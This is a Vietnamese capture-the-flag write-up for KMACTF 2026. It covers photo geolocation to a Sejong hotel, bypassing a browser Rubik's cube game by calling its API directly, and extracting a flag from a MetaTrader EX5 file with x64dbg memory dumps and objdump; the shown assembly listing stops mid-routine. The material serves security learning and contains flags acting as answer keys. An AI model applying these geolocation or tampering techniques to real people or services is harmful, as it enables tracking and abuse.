[Video Youtube](https://youtu.be/ZdyhHfGDkn8)

# Sanity Check


\- **Đọc rules trong discord:**



> KMACTF{w3lc0m3_To_KMACTF_2026_II_GLHF_1337<3:3}

# Rainy Day



[RAINY_DAY.png](https://drive.google.com/file/d/1t1C4wiWPgaT-IdatzXxRkRifBY68IbeV/view?usp=drive_link)

\- Khi kết hợp song song giữa việc hỏi LLM, mình đã sử dụng google lens (trên cả laptop và điện thoại) nhằm tìm thông tin về từng thành phần trong ảnh.

\- Khách sạn nơi ảnh được chụp (có hành lang thông ngoài trời), có vẻ như không có kiến trúc, điểm gì nổi bật

\- Vì vậy mình đã tập trung toàn lực cho tòa nhà màu trắng ở trung tâm bức ảnh:


**Kết quả Google Lens:**


\- Lập tức có được hình ảnh chi tiết về kiến trúc của tòa nhà

\- Nhận thấy đa số các bài báo được đăng từ blog của NAVER(cổng thông tin điện tử và tìm kiếm lớn tại Hàn Quốc)

\- Link bài báo: https://m.blog.naver.com/j01198212300/222855728640

\- Kết hợp tham khảo một số bài báo nội địa Hàn và quốc tế, kết hợp video youtube, kết luận:
+ Xác nhận đây chính là tòa nhà ở giữa bức ảnh, với kiến trúc độc lạ
+ Ở thành phố Sejong, Hàn Quốc
+ Lấy bức ảnh thứ 2 trong bài báo, đem đi google lens một lần nữa (vì đã rõ ràng chi tiết, cấu trúc)

 

$\implies$ Tòa nhà đằng xa có tên **M-Bridge**

\- Sau khi tra trên google maps theo tên cả tiếng anh lẫn tiếng hàn đều thất bại, mình chuyển sang tham khảo LLM một lần nữa về tọa độ chính xác của tòa nhà này và nhận được: 


\- Mình đã double check với LLM, nó khẳng định M-Bridge ở xung quanh tọa độ này
 
\- Mình bật chế độ *Khách sạn* trong google maps và thấy được một khách sạn gần như duy nhất: **Best Western Plus Hotel Sejong**

&rarr; [Tọa độ chính xác nơi bức ảnh được chụp](https://www.google.com/maps/@/data=!3m8!1e1!3m6!1sCIHM0ogKEICAgIDqq7DvxQE!2e10!3e11!6shttps:%2F%2Flh3.googleusercontent.com%2Fgpms-cs-s%2FAFP8RcNPPsg7L2itYKwMjs1Gc8Mb3258cjFAQNvtiQg4mgH0eeU2W4Y_X0BYjwIEitg7oVdOx11G19OO_oRP9poNnTk1yGdcwkUui8vBbeL_oioNPWSfwvIuRR8-4ND9rAbwX-C5PSlr_w%3Dw900-h600-k-no-pi-21.34891086551275-ya314.79623634264203-ro0-fo100!7i10240!8i5120?entry=ttu&g_ep=EgoyMDI2MDkwOS4wIKXMDSoASAFQAw%3D%3D)

> KMACTF{Best_Western_Plus_Hotel_Sejong}

# R U Ready?


\- Khi giải "chay" khối rubik 2x2 này với [web hỗ trợ giải rubik online](https://ruwix.com/cube-solver/2x2/), đến đoạn giải full 6 mặt và còn thừa thời gian, mình đã không thể submit (*Cube is not solved*)


\- Trong đó, khi tương tác với khối rubik, Burp không nhận thêm bất kì request nào

&rarr; Mọi logic đều được xử lí qua JS trên trình duyệt

\- JS bundle chứa logic client và làm lộ endpoint api: http://42.112.213.93:18081/assets/index-CO3YbkAX.js

## Luồng vận hành

\- Web có 2 request endpoint chính gồm:

<details>
    <summary>/api/stages/${e}/start</summary>

```
async function Ge(e, t) {
    return We(`/api/stages/${e}/start`, {
        method: `POST`,
        body: JSON.stringify(e === 2 ? {
            stagePassToken: t
        } : {})
    })
}
```

</details>

+ Nếu ở stage 2, body cần `stagePassToken`, được trả về sau khi giải stage 1 

<details>
    <summary>/api/stages/${e}/finish</summary>

```
async function Ke(e, t, n) {
    return We(`/api/stages/${e}/finish`, {
        method: `POST`,
        body: JSON.stringify({
            runId: t,
            moves: n
        })
    })
}
```

</details>


\- Tóm tắt: 

```
Frontend index.js
      │
      │ POST /api/stages/{stage}/start
      ▼
Backend API
      ├─ tạo runId
      ├─ tạo và lưu scramble
      ├─ thiết lập puzzle và thời hạn
      └─ trả dữ liệu về frontend
              │
              ▼
Frontend index.js
      ├─ hiển thị scramble
      ├─ nhận và lưu moves
      └─ gửi runId + moves
              │
              │ POST /api/stages/{stage}/finish
              ▼
Backend verify
      ├─ kiểm tra runId và thời gian
      ├─ lấy scramble đã lưu
      ├─ áp dụng moves
      └─ kiểm tra cube solved
              │
              └─ trả stagePassToken hoặc flag
```

## Luồng khai thác
**Stage 1 (2x2x2):**

\- POST /api/stages/1/start: Tạo scramble cho rubik 2x2x2 đầu tiên
+ Trả về `"runId"` 

\- POST /api/stages/1/finish, với Body chứa `"runId"` và `"moves"`
+ `"stagePassToken"` sẽ được cấp nếu solution chính xác

**Stage 2 (3x3x3)**

\- POST /api/stages/2/start, với Body là `"stagePassToken"` ở request trước. Tạo scrumble cho rubik 3x3x3 
+ Trả về `"runId"` 

\- POST /api/stages/2/finish, với Body chứa `"runId"` và `"moves"`

&rarr; Flag

## Khai thác

1. Tạo scrumble cho 2x2x2:



2. Hoàn thành rubik đầu và lấy token để sang stage mới:



3. Tạo scrumble cho 3x3x3:



4. Giải rubik lần cuối và lấy Flag:



> KMACTF{tw1st_th3_cl0ck_b4ck}

# No risk no rich!



## Phân tích tĩnh



&rarr; Đây là file nhị phân với định dạng riêng. Chưa phát hiện flag plaintext trong metadata và các chuỗi ASCII đã quét

## Phân tích động

\- Tải MetaTrader 5 - trading terminal của MetaQuotes, đóng vai trò là loader/runtime

### 1. Mở Rick36.ex5 trong data directory: 

\- MetaTrader 5 &rarr; File &rarr; Open Data Folder &rarr; MQL5 &rarr; Experts &rarr; Rick36.ex5

\- Nhìn về Navigator, thấy được Rick36 trong Expert Advisors



### 2. Kéo Rick36 vào một chart bất kì



### 3. Attach terminal64 của MetaTrader vào x64dbg



\- Bấm Debug &rarr; Run để chạy tiến trình

\- Nhập command `findallmem 0, "4B 4D 41 7B"` 




### 4. Tìm pattern trong bộ nhớ

\- Tại tab References, chuột phải vào địa chỉ được tìm thấy, bấm Follow in Dump



\- Xác nhận `KMA{` tồn tại trong bộ nhớ lúc chạy

\- Làm tương tự với occurrence còn lại


### 5. Phân tích hai occurrence
\- Tại vị trí plaintext `KMA{`, Follow in Memory Map, ta có 2 references

\- Reference đầu tiên: 

Address=000001DC09C3316D

Disassembly=jnp 1DC09C33138



\- Reference thứ hai:

Address=000001DC177F1913

Disassembly=jnp 1DC177F18DE



\- Hai occurrences của `KMA{` nằm trong hai vùng memory khác nhau. Thông tin từ Memory Map:

| Address | Size | Party | Info | Content | Type | Protection | Initial |
|---|---|---|---|---|---|---|---|
| `000001DC09C30000` | `0000000000010000` | `User` | - | - | `PRV` | `ER---` | `-RW--` |
| `000001DC173C0000` | `0000000000A52000` | `User` | - | - | `PRV` | `-RW--` | `-RW--` |


\- Reference thứ nhất thuộc vùng `ER---` nên có quyền đọc và  thực thi

\- Reference thứ hai thuộc vùng `-RW--`, chỉ có quyền đọc và ghi

**Kết luận:** Khó có thể debug động vì code và dữ liệu được tạo tạm thời trong runtime, địa chỉ cùng trạng thái vùng nhớ có thể thay đổi

$\implies$ Chuyển sang hướng dump vùng memory để phân tích

### 6. Lưu vùng memory 
\- Sử dụng Command: `savedata :memdump:, START, SIZE`
- START: địa chỉ vùng nhớ bắt đầu
- SIZE: kích thước vùng nhớ được dump
- :memdump:: x64dbg tự đặt tên file. Thư mục `memdumps`chứa và sắp xếp các file memory dump

\- Target vào địa chỉ nơi có quyền ER: 
`savedata :memdump:, 0x000001DC09C30000, 0x10000`

- Log:
    

\- Lệnh này copy 0x10000 bytes từ memory ra file

\- Target vào địa chỉ nơi có quyền RW:
`savedata :memdump:, 0x000001DC177ED913, 0x30000`

- Log: 
    

\- Lệnh này copy 0x30000 bytes từ memory ra file


\- Khi này, file dump được hình thành, giữ lại vùng byte khi runtime xuất hiện trong memory

**Chú ý:** 

\- `FOUND` là địa chỉ runtime của byte đầu tiên trong pattern tìm được

\- `START` là địa chỉ byte đầu tiên được lưu vào file dump

\- File offset là khoảng cách tính từ byte đầu tiên của file đến vị trí dữ liệu cần tìm (độ lệch file), được tính bằng `FOUND - START`

\- Ví dụ với occurrence thứ nhất:
- FOUND = 0x000001DC09C3316D

- START = 0x000001DC09C30000

- File offset = 0x316D

### 7. Dịch ngược thành lệnh assembly

\- Sử dụng `objdump` - công cụ hiển thị và dịch ngược mã nhị phân nhằm chuyển machine code thành mã hợp ngữ assembly để con người đọc được

**Thao tác trên vùng nhớ ER bắt đầu tại `0x000001DC09C30000`**
```
objdump -D -b binary -m i386:x86-64 -Mintel \
    --adjust-vma=0x000001DC09C30000 \
    /mnt/c/Tools/release/x64/memdumps/memdump_458_000001DC09C30000_10000.bin
```
`--adjust-vma`: đặt địa chỉ runtime của byte đầu tiên trong file dump, giá trị bằng START

\- Sau khi phân tích output, ta có khoảng hẹp hơn để chạy objdump lần thứ hai, ở chính xác luồng tạo flag

```
objdump -D -b binary -m i386:x86-64 -Mintel \
    --adjust-vma=0x000001DC09C30000 \
    --start-address=0x000001DC09C330D5 \
    --stop-address=0x000001DC09C33860 \
    /mnt/c/Tools/release/x64/memdumps/memdump_458_000001DC09C30000_10000.bin
```
`--start-address`  xác định địa chỉ bắt đầu mà objdump sẽ dịch thành assembly

`--stop-address` là địa chỉ giới hạn kết thúc vùng disassemble

\- Nhận được đoạn mã assembly, như sau:

<details>
    <summary>Output objdump ER</summary>

```
Disassembly of section .data:

000001dc09c330d5 <.data+0x30d5>:
 1dc09c330d5:   48 b9 63 68 61 74 6c    movabs rcx,0x7462676c74616863
 1dc09c330dc:   67 62 74
 1dc09c330df:   48 ba 4e 00 01 00 01    movabs rdx,0x10001004e
 1dc09c330e6:   00 00 00
 1dc09c330e9:   c7 84 24 80 01 00 00    mov    DWORD PTR [rsp+0x180],0x100004e
 1dc09c330f0:   4e 00 00 01
 1dc09c330f4:   48 8d bc 24 48 01 00    lea    rdi,[rsp+0x148]
 1dc09c330fb:   00
 1dc09c330fc:   48 8d 5c 24 50          lea    rbx,[rsp+0x50]
 1dc09c33101:   48 b8 64 65 65 70 73    movabs rax,0x5f6b657370656564
 1dc09c33108:   65 6b 5f
 1dc09c3310b:   49 be d0 78 c3 09 dc    movabs r14,0x1dc09c378d0
 1dc09c33112:   01 00 00
 1dc09c33115:   4c 8d 84 24 80 01 00    lea    r8,[rsp+0x180]
 1dc09c3311c:   00
 1dc09c3311d:   c7 84 24 f8 00 00 00    mov    DWORD PTR [rsp+0xf8],0x0
 1dc09c33124:   00 00 00 00
 1dc09c33128:   c7 84 24 b0 00 00 00    mov    DWORD PTR [rsp+0xb0],0x0
 1dc09c3312f:   00 00 00 00
 1dc09c33133:   c7 44 24 45 68 65 68    mov    DWORD PTR [rsp+0x45],0x69686568
 1dc09c3313a:   69
 1dc09c3313b:   66 c7 44 24 49 68 69    mov    WORD PTR [rsp+0x49],0x6968
 1dc09c33142:   c7 44 24 3e 6f 70 75    mov    DWORD PTR [rsp+0x3e],0x7375706f
 1dc09c33149:   73
 1dc09c3314a:   66 c7 44 24 42 73 79    mov    WORD PTR [rsp+0x42],0x7973
 1dc09c33151:   48 c7 84 24 fc 00 00    mov    QWORD PTR [rsp+0xfc],0x0
 1dc09c33158:   00 00 00 00 00
 1dc09c3315d:   48 c7 84 24 b4 00 00    mov    QWORD PTR [rsp+0xb4],0x0
 1dc09c33164:   00 00 00 00 00
 1dc09c33169:   c7 44 24 54 4b 4d 41    mov    DWORD PTR [rsp+0x54],0x7b414d4b
 1dc09c33170:   7b
 1dc09c33171:   c6 44 24 4b 5f          mov    BYTE PTR [rsp+0x4b],0x5f
 1dc09c33176:   c6 44 24 44 5f          mov    BYTE PTR [rsp+0x44],0x5f
 1dc09c3317b:   66 c7 44 24 3c 46 4c    mov    WORD PTR [rsp+0x3c],0x4c46
 1dc09c33182:   66 c7 44 24 3a 41 47    mov    WORD PTR [rsp+0x3a],0x4741
 1dc09c33189:   c7 44 24 50 00 00 00    mov    DWORD PTR [rsp+0x50],0x0
 1dc09c33190:   00
 1dc09c33191:   c7 44 24 4c 00 00 00    mov    DWORD PTR [rsp+0x4c],0x0
 1dc09c33198:   00
 1dc09c33199:   48 89 8c 24 a7 00 00    mov    QWORD PTR [rsp+0xa7],rcx
 1dc09c331a0:   00
 1dc09c331a1:   48 b9 01 00 00 00 04    movabs rcx,0x400000001
 1dc09c331a8:   00 00 00
 1dc09c331ab:   48 89 94 24 48 01 00    mov    QWORD PTR [rsp+0x148],rdx
 1dc09c331b2:   00
 1dc09c331b3:   48 89 94 24 10 01 00    mov    QWORD PTR [rsp+0x110],rdx
 1dc09c331ba:   00
 1dc09c331bb:   48 ba 00 00 00 00 04    movabs rdx,0x400000000
 1dc09c331c2:   00 00 00
 1dc09c331c5:   48 89 84 24 08 01 00    mov    QWORD PTR [rsp+0x108],rax
 1dc09c331cc:   00
 1dc09c331cd:   c6 84 24 af 00 00 00    mov    BYTE PTR [rsp+0xaf],0x7d
 1dc09c331d4:   7d
 1dc09c331d5:   c7 84 24 78 01 00 00    mov    DWORD PTR [rsp+0x178],0x0
 1dc09c331dc:   00 00 00 00
 1dc09c331e0:   48 c7 84 24 70 01 00    mov    QWORD PTR [rsp+0x170],0x0
 1dc09c331e7:   00 00 00 00 00
 1dc09c331ec:   48 c7 84 24 68 01 00    mov    QWORD PTR [rsp+0x168],0x0
 1dc09c331f3:   00 00 00 00 00
 1dc09c331f8:   48 c7 84 24 60 01 00    mov    QWORD PTR [rsp+0x160],0x0
 1dc09c331ff:   00 00 00 00 00
 1dc09c33204:   48 c7 84 24 58 01 00    mov    QWORD PTR [rsp+0x158],0x0
 1dc09c3320b:   00 00 00 00 00
 1dc09c33210:   48 c7 84 24 50 01 00    mov    QWORD PTR [rsp+0x150],0x0
 1dc09c33217:   00 00 00 00 00
 1dc09c3321c:   c7 84 24 40 01 00 00    mov    DWORD PTR [rsp+0x140],0x0
 1dc09c33223:   00 00 00 00
 1dc09c33227:   48 c7 84 24 38 01 00    mov    QWORD PTR [rsp+0x138],0x0
 1dc09c3322e:   00 00 00 00 00
 1dc09c33233:   48 c7 84 24 30 01 00    mov    QWORD PTR [rsp+0x130],0x0
 1dc09c3323a:   00 00 00 00 00
 1dc09c3323f:   48 c7 84 24 28 01 00    mov    QWORD PTR [rsp+0x128],0x0
 1dc09c33246:   00 00 00 00 00
 1dc09c3324b:   48 c7 84 24 20 01 00    mov    QWORD PTR [rsp+0x120],0x0
 1dc09c33252:   00 00 00 00 00
 1dc09c33257:   48 c7 84 24 18 01 00    mov    QWORD PTR [rsp+0x118],0x0
 1dc09c3325e:   00 00 00 00 00
 1dc09c33263:   48 89 8c 24 84 01 00    mov    QWORD PTR [rsp+0x184],rcx
 1dc09c3326a:   00
 1dc09c3326b:   48 8d 4c 24 54          lea    rcx,[rsp+0x54]
 1dc09c33270:   48 c7 84 24 8c 01 00    mov    QWORD PTR [rsp+0x18c],0x0
 1dc09c33277:   00 00 00 00 00
 1dc09c3327c:   48 89 94 24 94 01 00    mov    QWORD PTR [rsp+0x194],rdx
 1dc09c33283:   00
 1dc09c33284:   48 89 da                mov    rdx,rbx
 1dc09c33287:   48 89 8c 24 9c 01 00    mov    QWORD PTR [rsp+0x19c],rcx
 1dc09c3328e:   00
 1dc09c3328f:   48 89 f9                mov    rcx,rdi
 1dc09c33292:   48 c7 84 24 ac 01 00    mov    QWORD PTR [rsp+0x1ac],0x0
 1dc09c33299:   00 00 00 00 00
 1dc09c3329e:   48 c7 84 24 a4 01 00    mov    QWORD PTR [rsp+0x1a4],0x0
 1dc09c332a5:   00 00 00 00 00
 1dc09c332aa:   41 ff d6                call   r14
 1dc09c332ad:   49 bf 01 00 00 00 07    movabs r15,0x700000001
 1dc09c332b4:   00 00 00
 1dc09c332b7:   49 bc 00 00 00 00 07    movabs r12,0x700000000
 1dc09c332be:   00 00 00
 1dc09c332c1:   48 8d 44 24 45          lea    rax,[rsp+0x45]
 1dc09c332c6:   4c 8d 84 24 b8 01 00    lea    r8,[rsp+0x1b8]
 1dc09c332cd:   00
 1dc09c332ce:   48 89 f9                mov    rcx,rdi
 1dc09c332d1:   48 89 da                mov    rdx,rbx
 1dc09c332d4:   c7 84 24 b8 01 00 00    mov    DWORD PTR [rsp+0x1b8],0x100004e
 1dc09c332db:   4e 00 00 01
 1dc09c332df:   4c 89 bc 24 bc 01 00    mov    QWORD PTR [rsp+0x1bc],r15
 1dc09c332e6:   00
 1dc09c332e7:   48 c7 84 24 c4 01 00    mov    QWORD PTR [rsp+0x1c4],0x0
 1dc09c332ee:   00 00 00 00 00
 1dc09c332f3:   4c 89 a4 24 cc 01 00    mov    QWORD PTR [rsp+0x1cc],r12
 1dc09c332fa:   00
 1dc09c332fb:   48 89 84 24 d4 01 00    mov    QWORD PTR [rsp+0x1d4],rax
 1dc09c33302:   00
 1dc09c33303:   48 c7 84 24 dc 01 00    mov    QWORD PTR [rsp+0x1dc],0x0
 1dc09c3330a:   00 00 00 00 00
 1dc09c3330f:   48 c7 84 24 e4 01 00    mov    QWORD PTR [rsp+0x1e4],0x0
 1dc09c33316:   00 00 00 00 00
 1dc09c3331b:   41 ff d6                call   r14
 1dc09c3331e:   48 b8 01 00 00 00 08    movabs rax,0x800000001
 1dc09c33325:   00 00 00
 1dc09c33328:   48 ba 00 00 00 00 08    movabs rdx,0x800000000
 1dc09c3332f:   00 00 00
 1dc09c33332:   48 8d 8c 24 08 01 00    lea    rcx,[rsp+0x108]
 1dc09c33339:   00
 1dc09c3333a:   c7 84 24 f0 01 00 00    mov    DWORD PTR [rsp+0x1f0],0x100004e
 1dc09c33341:   4e 00 00 01
 1dc09c33345:   4c 8d 84 24 f0 01 00    lea    r8,[rsp+0x1f0]
 1dc09c3334c:   00
 1dc09c3334d:   48 89 84 24 f4 01 00    mov    QWORD PTR [rsp+0x1f4],rax
 1dc09c33354:   00
 1dc09c33355:   48 c7 84 24 fc 01 00    mov    QWORD PTR [rsp+0x1fc],0x0
 1dc09c3335c:   00 00 00 00 00
 1dc09c33361:   48 89 94 24 04 02 00    mov    QWORD PTR [rsp+0x204],rdx
 1dc09c33368:   00
 1dc09c33369:   48 89 8c 24 0c 02 00    mov    QWORD PTR [rsp+0x20c],rcx
 1dc09c33370:   00
 1dc09c33371:   48 89 f9                mov    rcx,rdi
 1dc09c33374:   48 89 da                mov    rdx,rbx
 1dc09c33377:   48 c7 84 24 14 02 00    mov    QWORD PTR [rsp+0x214],0x0
 1dc09c3337e:   00 00 00 00 00
 1dc09c33383:   48 c7 84 24 1c 02 00    mov    QWORD PTR [rsp+0x21c],0x0
 1dc09c3338a:   00 00 00 00 00
 1dc09c3338f:   41 ff d6                call   r14
 1dc09c33392:   48 8d 44 24 3e          lea    rax,[rsp+0x3e]
 1dc09c33397:   4c 8d 84 24 28 02 00    lea    r8,[rsp+0x228]
 1dc09c3339e:   00
 1dc09c3339f:   48 89 f9                mov    rcx,rdi
 1dc09c333a2:   48 89 da                mov    rdx,rbx
 1dc09c333a5:   c7 84 24 28 02 00 00    mov    DWORD PTR [rsp+0x228],0x100004e
 1dc09c333ac:   4e 00 00 01
 1dc09c333b0:   4c 89 bc 24 2c 02 00    mov    QWORD PTR [rsp+0x22c],r15
 1dc09c333b7:   00
 1dc09c333b8:   48 c7 84 24 34 02 00    mov    QWORD PTR [rsp+0x234],0x0
 1dc09c333bf:   00 00 00 00 00
 1dc09c333c4:   4c 89 a4 24 3c 02 00    mov    QWORD PTR [rsp+0x23c],r12
 1dc09c333cb:   00
 1dc09c333cc:   48 89 84 24 44 02 00    mov    QWORD PTR [rsp+0x244],rax
 1dc09c333d3:   00
 1dc09c333d4:   48 c7 84 24 4c 02 00    mov    QWORD PTR [rsp+0x24c],0x0
 1dc09c333db:   00 00 00 00 00
 1dc09c333e0:   48 c7 84 24 54 02 00    mov    QWORD PTR [rsp+0x254],0x0
 1dc09c333e7:   00 00 00 00 00
 1dc09c333ec:   41 ff d6                call   r14
 1dc09c333ef:   48 b8 01 00 00 00 09    movabs rax,0x900000001
 1dc09c333f6:   00 00 00
 1dc09c333f9:   48 ba 00 00 00 00 09    movabs rdx,0x900000000
 1dc09c33400:   00 00 00
 1dc09c33403:   48 8d 8c 24 a7 00 00    lea    rcx,[rsp+0xa7]
 1dc09c3340a:   00
 1dc09c3340b:   c7 84 24 60 02 00 00    mov    DWORD PTR [rsp+0x260],0x100004e
 1dc09c33412:   4e 00 00 01
 1dc09c33416:   4c 8d 84 24 60 02 00    lea    r8,[rsp+0x260]
 1dc09c3341d:   00
 1dc09c3341e:   48 89 84 24 64 02 00    mov    QWORD PTR [rsp+0x264],rax
 1dc09c33425:   00
 1dc09c33426:   48 c7 84 24 6c 02 00    mov    QWORD PTR [rsp+0x26c],0x0
 1dc09c3342d:   00 00 00 00 00
 1dc09c33432:   48 89 94 24 74 02 00    mov    QWORD PTR [rsp+0x274],rdx
 1dc09c33439:   00
 1dc09c3343a:   48 89 8c 24 7c 02 00    mov    QWORD PTR [rsp+0x27c],rcx
 1dc09c33441:   00
 1dc09c33442:   48 89 f9                mov    rcx,rdi
 1dc09c33445:   48 89 da                mov    rdx,rbx
 1dc09c33448:   48 c7 84 24 84 02 00    mov    QWORD PTR [rsp+0x284],0x0
 1dc09c3344f:   00 00 00 00 00
 1dc09c33454:   48 c7 84 24 8c 02 00    mov    QWORD PTR [rsp+0x28c],0x0
 1dc09c3345b:   00 00 00 00 00
 1dc09c33460:   41 ff d6                call   r14
 1dc09c33463:   48 8d bc 24 10 01 00    lea    rdi,[rsp+0x110]
 1dc09c3346a:   00
 1dc09c3346b:   48 8d 5c 24 4c          lea    rbx,[rsp+0x4c]
 1dc09c33470:   49 bf 01 00 00 00 02    movabs r15,0x200000001
 1dc09c33477:   00 00 00
 1dc09c3347a:   49 bc 00 00 00 00 02    movabs r12,0x200000000
 1dc09c33481:   00 00 00
 1dc09c33484:   48 8d 44 24 3c          lea    rax,[rsp+0x3c]
 1dc09c33489:   4c 8d 84 24 98 02 00    lea    r8,[rsp+0x298]
 1dc09c33490:   00
 1dc09c33491:   c7 84 24 98 02 00 00    mov    DWORD PTR [rsp+0x298],0x100004e
 1dc09c33498:   4e 00 00 01
 1dc09c3349c:   48 89 f9                mov    rcx,rdi
 1dc09c3349f:   48 89 da                mov    rdx,rbx
 1dc09c334a2:   4c 89 bc 24 9c 02 00    mov    QWORD PTR [rsp+0x29c],r15
 1dc09c334a9:   00
 1dc09c334aa:   48 c7 84 24 a4 02 00    mov    QWORD PTR [rsp+0x2a4],0x0
 1dc09c334b1:   00 00 00 00 00
 1dc09c334b6:   4c 89 a4 24 ac 02 00    mov    QWORD PTR [rsp+0x2ac],r12
 1dc09c334bd:   00
 1dc09c334be:   48 89 84 24 b4 02 00    mov    QWORD PTR [rsp+0x2b4],rax
 1dc09c334c5:   00
 1dc09c334c6:   48 c7 84 24 bc 02 00    mov    QWORD PTR [rsp+0x2bc],0x0
 1dc09c334cd:   00 00 00 00 00
 1dc09c334d2:   48 c7 84 24 c4 02 00    mov    QWORD PTR [rsp+0x2c4],0x0
 1dc09c334d9:   00 00 00 00 00
 1dc09c334de:   41 ff d6                call   r14
 1dc09c334e1:   48 8d 44 24 3a          lea    rax,[rsp+0x3a]
 1dc09c334e6:   4c 8d 84 24 c0 00 00    lea    r8,[rsp+0xc0]
 1dc09c334ed:   00
 1dc09c334ee:   48 89 f9                mov    rcx,rdi
 1dc09c334f1:   48 89 da                mov    rdx,rbx
 1dc09c334f4:   c7 84 24 c0 00 00 00    mov    DWORD PTR [rsp+0xc0],0x100004e
 1dc09c334fb:   4e 00 00 01
 1dc09c334ff:   4c 89 bc 24 c4 00 00    mov    QWORD PTR [rsp+0xc4],r15
 1dc09c33506:   00
 1dc09c33507:   48 c7 84 24 cc 00 00    mov    QWORD PTR [rsp+0xcc],0x0
 1dc09c3350e:   00 00 00 00 00
 1dc09c33513:   4c 89 a4 24 d4 00 00    mov    QWORD PTR [rsp+0xd4],r12
 1dc09c3351a:   00
 1dc09c3351b:   48 89 84 24 dc 00 00    mov    QWORD PTR [rsp+0xdc],rax
 1dc09c33522:   00
 1dc09c33523:   48 c7 84 24 e4 00 00    mov    QWORD PTR [rsp+0xe4],0x0
 1dc09c3352a:   00 00 00 00 00
 1dc09c3352f:   48 c7 84 24 ec 00 00    mov    QWORD PTR [rsp+0xec],0x0
 1dc09c33536:   00 00 00 00 00
 1dc09c3353b:   41 ff d6                call   r14
 1dc09c3353e:   8b ac 24 50 01 00 00    mov    ebp,DWORD PTR [rsp+0x150]
 1dc09c33545:   c7 84 24 88 00 00 00    mov    DWORD PTR [rsp+0x88],0x0
 1dc09c3354c:   00 00 00 00
 1dc09c33550:   c7 44 24 78 00 00 00    mov    DWORD PTR [rsp+0x78],0x0
 1dc09c33557:   00
 1dc09c33558:   c7 44 24 68 00 00 00    mov    DWORD PTR [rsp+0x68],0x0
 1dc09c3355f:   00
 1dc09c33560:   48 c7 84 24 8c 00 00    mov    QWORD PTR [rsp+0x8c],0x0
 1dc09c33567:   00 00 00 00 00
 1dc09c3356c:   48 c7 44 24 7c 00 00    mov    QWORD PTR [rsp+0x7c],0x0
 1dc09c33573:   00 00
 1dc09c33575:   48 c7 44 24 6c 00 00    mov    QWORD PTR [rsp+0x6c],0x0
 1dc09c3357c:   00 00
 1dc09c3357e:   85 ed                   test   ebp,ebp
 1dc09c33580:   0f 8e 48 01 00 00       jle    0x1dc09c336ce
 1dc09c33586:   8b 9c 24 18 01 00 00    mov    ebx,DWORD PTR [rsp+0x118]
 1dc09c3358d:   85 db                   test   ebx,ebx
 1dc09c3358f:   0f 8e 39 01 00 00       jle    0x1dc09c336ce
 1dc09c33595:   48 ba 00 88 c3 09 dc    movabs rdx,0x1dc09c38800
 1dc09c3359c:   01 00 00
 1dc09c3359f:   49 b9 e8 a9 c3 09 dc    movabs r9,0x1dc09c3a9e8
 1dc09c335a6:   01 00 00
 1dc09c335a9:   48 b8 00 03 c3 09 dc    movabs rax,0x1dc09c30300
 1dc09c335b0:   01 00 00
 1dc09c335b3:   48 8d 4c 24 68          lea    rcx,[rsp+0x68]
 1dc09c335b8:   45 31 c0                xor    r8d,r8d
 1dc09c335bb:   31 ff                   xor    edi,edi
 1dc09c335bd:   ff d0                   call   rax
 1dc09c335bf:   49 be 20 c9 f2 42 f6    movabs r14,0x7ff642f2c920
 1dc09c335c6:   7f 00 00
 1dc09c335c9:   49 bf f8 a9 c3 09 dc    movabs r15,0x1dc09c3a9f8
 1dc09c335d0:   01 00 00
 1dc09c335d3:   4c 8d a4 24 88 00 00    lea    r12,[rsp+0x88]
 1dc09c335da:   00
 1dc09c335db:   49 bd 3c b3 c3 09 dc    movabs r13,0x1dc09c3b33c
 1dc09c335e2:   01 00 00
 1dc09c335e5:   66 2e 0f 1f 84 00 00    cs nop WORD PTR [rax+rax*1+0x0]
 1dc09c335ec:   00 00 00
 1dc09c335ef:   90                      nop
 1dc09c335f0:   89 f8                   mov    eax,edi
 1dc09c335f2:   99                      cdq
 1dc09c335f3:   f7 fb                   idiv   ebx
 1dc09c335f5:   39 da                   cmp    edx,ebx
 1dc09c335f7:   0f 83 86 04 00 00       jae    0x1dc09c33a83
 1dc09c335fd:   89 d0                   mov    eax,edx
 1dc09c335ff:   48 8b 94 24 2c 01 00    mov    rdx,QWORD PTR [rsp+0x12c]
 1dc09c33606:   00
 1dc09c33607:   48 8b 8c 24 64 01 00    mov    rcx,QWORD PTR [rsp+0x164]
 1dc09c3360e:   00
 1dc09c3360f:   41 b8 02 00 00 00       mov    r8d,0x2
 1dc09c33615:   41 b9 08 00 59 00       mov    r9d,0x590008
 1dc09c3361b:   0f b6 04 02             movzx  eax,BYTE PTR [rdx+rax*1]
 1dc09c3361f:   ba d8 00 00 00          mov    edx,0xd8
 1dc09c33624:   32 04 39                xor    al,BYTE PTR [rcx+rdi*1]
 1dc09c33627:   48 b9 c8 9c c3 09 dc    movabs rcx,0x1dc09c39cc8
 1dc09c3362e:   01 00 00
 1dc09c33631:   c7 44 24 28 04 00 52    mov    DWORD PTR [rsp+0x28],0x520004
 1dc09c33638:   00
 1dc09c33639:   48 89 4c 24 20          mov    QWORD PTR [rsp+0x20],rcx
 1dc09c3363e:   48 b9 70 ce 2f 0b dc    movabs rcx,0x1dc0b2fce70
 1dc09c33645:   01 00 00
 1dc09c33648:   0f b6 c0                movzx  eax,al
 1dc09c3364b:   89 44 24 30             mov    DWORD PTR [rsp+0x30],eax
 1dc09c3364f:   41 ff d6                call   r14
 1dc09c33652:   4c 89 e1                mov    rcx,r12
 1dc09c33655:   4c 89 ea                mov    rdx,r13
 1dc09c33658:   41 b0 01                mov    r8b,0x1
 1dc09c3365b:   4d 89 f9                mov    r9,r15
 1dc09c3365e:   48 b8 00 03 c3 09 dc    movabs rax,0x1dc09c30300
 1dc09c33665:   01 00 00
 1dc09c33668:   ff d0                   call   rax
 1dc09c3366a:   48 8b 94 24 8c 00 00    mov    rdx,QWORD PTR [rsp+0x8c]
 1dc09c33671:   00
 1dc09c33672:   48 8d 4c 24 68          lea    rcx,[rsp+0x68]
 1dc09c33677:   48 b8 60 00 c3 09 dc    movabs rax,0x1dc09c30060
 1dc09c3367e:   01 00 00
 1dc09c33681:   ff d0                   call   rax
 1dc09c33683:   84 c0                   test   al,al
 1dc09c33685:   0f 84 d8 03 00 00       je     0x1dc09c33a63
 1dc09c3368b:   48 ff c7                inc    rdi
 1dc09c3368e:   48 39 fd                cmp    rbp,rdi
 1dc09c33691:   0f 85 59 ff ff ff       jne    0x1dc09c335f0
 1dc09c33697:   48 8d 7c 24 68          lea    rdi,[rsp+0x68]
 1dc09c3369c:   49 b9 08 aa c3 09 dc    movabs r9,0x1dc09c3aa08
 1dc09c336a3:   01 00 00
 1dc09c336a6:   48 8d 4c 24 78          lea    rcx,[rsp+0x78]
